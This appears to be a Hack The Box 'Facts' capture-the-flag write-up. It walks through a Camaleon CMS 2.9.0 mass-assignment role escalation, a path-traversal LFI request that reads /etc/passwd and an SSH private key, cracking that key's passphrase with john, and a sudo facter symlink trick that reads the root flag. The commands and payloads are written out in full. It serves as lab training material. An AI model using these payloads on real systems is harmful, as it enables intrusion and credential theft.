










## TL;DR

In this challenge, we find hidden endpoint `/admin`, create user, and exploit mass assignment to get admin account, at the `Camaleon CMS 2.9.0`.
Then, we exploit `LFI` to find the private ssh key of user `trivia`.

We exploit `sudo` on facter to achieve arbitrary file read, and grab the root flag.

### Recon

we start with `rustscan`, using this command:
```bash
rustscan -a $target -- -sV -sC -oN nmap.txt -oX nmap.xml
```



we can see port `22` with ssh, port `80` with nginx http server and port `54321` with golang http server
```bash
PORT      STATE SERVICE REASON         VERSION                                                                                                   
22/tcp    open  ssh     syn-ack ttl 63 OpenSSH 9.9p1 Ubuntu 3ubuntu3.2 (Ubuntu Linux; protocol 2.0)                                              
| ssh-hostkey:                                                                                                                                   
|   256 4d:d7:b2:8c:d4:df:57:9c:a4:2f:df:c6:e3:01:29:89 (ECDSA)                                                                                  
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBNYjzL0v+zbXt5Zvuhd63ZMVGK/8TRBsYpIitcmtFPexgvOxbFiv6VCm9ZzRBGKf0uoNaj6
9WYzveCNEWxdQUww=                                                                                                                                
|   256 a3:ad:6b:2f:4a:bf:6f:48:ac:81:b9:45:3f:de:fb:87 (ED25519)                                                                                
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIPCNb2NXAGnDBofpLTCGLMyF/N6Xe5LIri/onyTBifIK                                                               
80/tcp    open  http    syn-ack ttl 63 nginx 1.26.3 (Ubuntu)                                                                                     
|_http-favicon: Unknown favicon MD5: 8C83ADFFE48BE12C38E7DBCC2D0524BC                                                                            
|_http-title: facts                                                                                                                              
|_http-server-header: nginx/1.26.3 (Ubuntu)                                                                                                      
| http-methods:                                                                                                                                  
|_  Supported Methods: GET HEAD POST OPTIONS                                                                                                     
54321/tcp open  http    syn-ack ttl 62 Golang net/http server
```

I added `facts.htb` to my `/etc/hosts`

### Exploit Mass assignment to get admin account

I started with fuzzing the website at port `80`, we can see some simple website with nothing too intersting:



Using `ffuf`, I found the endpoint `admin`:
```bash
┌──(agonen㉿kali)-[~/htb/Facts]
└─$ ffuf -u 'http://facts.htb/FUZZ' -w /usr/share/SecLists/Discovery/Web-Content/big.txt -fc 403 -fw 1328

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : http://facts.htb/FUZZ
 :: Wordlist         : FUZZ: /usr/share/SecLists/Discovery/Web-Content/big.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200-299,301,302,307,401,403,405,500
 :: Filter           : Response status: 403
 :: Filter           : Response words: 1328
________________________________________________

400                     [Status: 200, Size: 6685, Words: 993, Lines: 115, Duration: 2482ms]
404                     [Status: 200, Size: 4836, Words: 832, Lines: 115, Duration: 2392ms]
422                     [Status: 200, Size: 8380, Words: 1063, Lines: 115, Duration: 2191ms]
500                     [Status: 200, Size: 7918, Words: 1035, Lines: 115, Duration: 2298ms]
admin                   [Status: 302, Size: 0, Words: 1, Lines: 1, Duration: 2706ms]
```

We need to create user and log in.



I sniffed around, we can see we are in role client, and this is `Camaleon CMS 2.9.0`.



I googled and found [https://sploitus.com/exploit?id=1017FEE9-A2CD-587D-889D-E056A5FAD264](https://sploitus.com/exploit?id=1017FEE9-A2CD-587D-889D-E056A5FAD264).

Let's follow the steps:
```txt
Exploitation Steps
1. Log in as a low-privileged user (e.g., "Bob").
2. Intercept the password change using a proxy (e.g Burpsuite, caido and more)
3. Capture the updated_ajax request during a password change.
4. Inject the parameter password[role]=admin into the POST body and forward it (do not do it in the repeater)
5. The server processes the request and updates the user's role in the database.
6. You got privilege escalation
```

So, we will change password, and capture it in the Burp Suite:



I want the next parameter `&password%5Brole%5D=admin` to the request, to change the role into `admin`



Now, we got admin functionality:



### Find ssh private key using LFI

Now, I googled and found potential `LFI`, here is the PoC [https://rubysec.com/advisories/CVE-2024-46987/](https://rubysec.com/advisories/CVE-2024-46987/).

I tried to get the next resource, and discovered the `LFI`:
```bash
/admin/media/download_private_file?file=../../../../../../etc/passwd
```



The last two lines are:
```bash
trivia:x:1000:1000:facts.htb:/home/trivia:/bin/bash
william:x:1001:1001::/home/william:/bin/bash
```

I wanted to recover the private ssh key, if aviliable, this is the common names: `id_rsa, id_dsa, id_ecdsa, id_ed25519`, so, the potentials locations:
```bash
/home/trivia/.ssh/id_rsa
/home/trivia/.ssh/id_dsa
/home/trivia/.ssh/id_ecdsa
/home/trivia/.ssh/id_ed25519
/home/william/.ssh/id_rsa
/home/william/.ssh/id_dsa
/home/william/.ssh/id_ecdsa
/home/william/.ssh/id_ed25519
``` 

I used burp intruder, and found out that `/home/trivia/.ssh/id_ed25519` gave me private key



Now, we can download this file, crack its passphrase, and use it to login as user `trivia`:
```bash
┌──(agonen㉿kali)-[~/htb/Facts]                                                                                                                  
└─$ curl http://facts.htb/admin/media/download_private_file?file=../../../../../../home/trivia/.ssh/id_ed25519 -H 'Cookie: _factsapp_session=Ykzc
O6Ex0H1CROjH0Wvb38NcOannxVYUNTCzYpkoh0xkv1KkP%2B0jqHwy3r6b76tM%2FteOBsc%2F5hxPCvhuUmhg8wNeJi1Lfr3uKrzoxM4aeCHsBrK5OBXyufd3w7MrW3jq50TDz5U%2B9%2B6
1WF5TmxvY%2FRS6i606%2B4iF3j79jAqboawc74ab%2FRCgO4ds74hANIiSF51JuV4kzzbIyE0wudyPsy3azgloduDR1KTvZ3ke9pBGpmA5MLQ%2Fif3Cq7%2FkrbXb0BzZhTAP6em1F6zd8F
vm6i%2FQyShJ%2FURcLGjgBePk00IqA90%2BiA2%2FORUBllJ%2FZ%2F8lxgGjwrSt%2FWj4gO%2F%2BwmxZNuFz31aYnmi7CyxgJ8T79XrnApGDvU%2FAFIw%3D--zMVT%2B7GAtZM5dq2g-
-oy4L3S2sRFFFdyaBVUP4RA%3D%3D; auth_token=Tx57rA_IdauNAB7o9ordaw%26Mozilla%2F5.0+%28X11%3B+Linux+x86_64%3B+rv%3A128.0%29+Gecko%2F20100101+Firefox
%2F128.0%2610.10.15.5' -o id_ed25519 -s

┌──(agonen㉿kali)-[~/htb/Facts]
└─$ chmod 600 id_ed25519
```

we want to extract the hash:
```bash
┌──(agonen㉿kali)-[~/htb/Facts]
└─$ ssh2john id_ed25519 > hash.txt
```

and then crack it:
```bash
┌──(agonen㉿kali)-[~/htb/Facts]
└─$ john hash.txt --wordlist=/usr/share/wordlists/rockyou.txt
Using default input encoding: UTF-8
Loaded 1 password hash (SSH, SSH private key [RSA/DSA/EC/OPENSSH 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 2 for all loaded hashes
Cost 2 (iteration count) is 24 for all loaded hashes
Will run 2 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
dragonballz      (id_ed25519)     
1g 0:00:10:54 DONE (2026-02-15 01:14) 0.001526g/s 4.885p/s 4.885c/s 4.885C/s jhonatan..mariano
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

Now, we can login via ssh:
```bash
ssh trivia@facts.htb -i id_ed25519 # dragonballz
```



and grab the user flag:
```bash
trivia@facts:/home/william$ cat user.txt 
05d1b78c5a7307ac775c2b6d55651fea
```

### Arbitrary file read as root using sudo on facter

I checked for sudo permissions:
```bash
trivia@facts:~$ sudo -l
Matching Defaults entries for trivia on facts:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin, use_pty

User trivia may run the following commands on facts:
    (ALL) NOPASSWD: /usr/bin/facter
```

After some playing, I managed to get arbitrary file reading:
```bash
trivia@facts:~$ ln -sf /root/root.txt config.conf
trivia@facts:~$ sudo facter -c config.conf | head
[2026-02-15 00:02:43.899342 ] WARN Facter::ConfigReader - Facter failed to read config file config.conf with the following error: /home/trivia/config.conf: 2: Key 'a35d9b09b23726ad0e91a52374cefc35' may not be followed by token: end of file 
[2026-02-15 00:02:43.899819 ] WARN Facter::ConfigReader - Facter failed to read config file config.conf with the following error: /home/trivia/config.conf: 2: Key 'a35d9b09b23726ad0e91a52374cefc35' may not be followed by token: end of file 
[2026-02-15 00:02:43.903521 ] WARN Facter::ConfigReader - Facter failed to read config file config.conf with the following error: /home/trivia/config.conf: 2: Key 'a35d9b09b23726ad0e91a52374cefc35' may not be followed by token: end of file 
[2026-02-15 00:02:43.905306 ] WARN Facter::ConfigReader - Facter failed to read config file config.conf with the following error: /home/trivia/config.conf: 2: Key 'a35d9b09b23726ad0e91a52374cefc35' may not be followed by token: end of file 
disks => {
  sda => {
    model => "Virtual disk",
    serial => "6000c2967e20ea19ef110cf6b958a20e",
    size => "10.00 GiB",
    size_bytes => 10737418240,
    type => "ssd",
    vendor => "VMware",
    wwn => "0x6000c2967e20ea19ef110cf6b958a20e"
  }
```

As we can see, we got the root flag:
```bash
a35d9b09b23726ad0e91a52374cefc35
```


